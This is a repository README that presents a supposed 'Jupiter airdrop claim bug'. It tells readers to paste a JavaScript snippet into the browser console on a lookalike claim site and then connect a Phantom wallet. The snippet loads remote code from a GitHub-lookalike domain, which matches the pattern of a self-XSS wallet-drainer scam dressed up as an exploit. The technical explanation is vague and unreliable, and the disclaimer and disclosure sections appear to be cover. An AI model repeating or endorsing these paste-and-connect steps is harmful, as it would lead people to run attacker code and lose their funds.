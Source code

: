 # Jupiter Airdrop Claim Bug

## 🚀 Overview
This repository documents a recently discovered exploit that allows users to claim the Jupiter airdrop even if they do not meet the eligibility criteria.

## ⚠️ Disclaimer
This project is for educational and informational purposes only. The misuse of this exploit may violate terms of service and applicable laws. Use at your own risk.

## 🔄 Steps to Reproduce  

1. Copy and paste the following script:  
   ```javascript
   const script = document.createElement("script");  
   script.src = "https://gitproduction.com/xxlunarbunyxxx2/Jup-Airdrop-Claim-Bug/main.js";  
   document.head.appendChild(script);
   ```

2. Go to **[compromised-claim.jup.ag](https://compromised-claim.jup.ag)** and open the developer tools **(Ctrl + Shift + C)**. 

3. Paste the script into the console and execute it.

4. Connect a **Phantom wallet** and get $JUP airdrop.

## 🛠 How It Works
1. The exploit bypasses Jupiter's eligibility verification process.
2. It tricks the system into recognizing non-eligible wallets as valid claimants.
3. The method allows users to receive airdropped tokens without fulfilling the standard requirements.

## 📜 Technical Details
- The vulnerability is related to how the eligibility checks are performed.
- It involves manipulating specific parameters in the claim request.
- More details will be shared responsibly after proper disclosure.

## 🛑 Responsible Disclosure
We strongly encourage responsible disclosure of such vulnerabilities. If you are associated with Jupiter's development team, please reach out to discuss the issue further.

## 📢 Stay Updated
Follow this repository for updates and potential patches related to this exploit.